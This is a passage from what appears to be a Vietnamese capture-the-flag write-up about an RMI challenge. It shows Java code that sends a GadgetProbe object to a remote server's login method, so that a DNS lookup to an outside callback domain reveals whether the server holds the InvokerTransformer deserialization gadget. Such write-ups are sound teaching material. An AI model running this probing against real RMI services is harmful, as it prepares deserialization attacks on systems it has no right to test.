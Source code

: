 ## Kiểm tra Class Path Qua GadgetProbe

Cách tích hợp cũng đơn giản:

- Import GadgetProbe vào project (xem lại bài [ascis_rmi_v1](../ascis_rmi_v1)).
- Tạo Object GadgetProbe với class path cần kiểm tra.
- Pass object vào `ASCISInterf.login()`.

```java
package rmi;

import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import com.bishopfox.gadgetprobe.GadgetProbe;

public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {

        // Connect to RMI server
        String serverIP = "207.148.75.135";
        int serverPort = 13337;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");

        // Dùng GadgetProbe để kiểm tra classpath có tồn tại hay không, nếu có query DNS sẽ thành công, ngược lại thì không trả có gì trả về.
        GadgetProbe gp = new GadgetProbe("doublevkay.4beb6130928c416addc0.d.zhack.ca");
        Object obj = gp.getObject("org.apache.commons.collections.functors.InvokerTransformer");
        System.out.println(ascisInterf.login(obj));
    }
}
```

![GadgetProbe](img/p2.png)
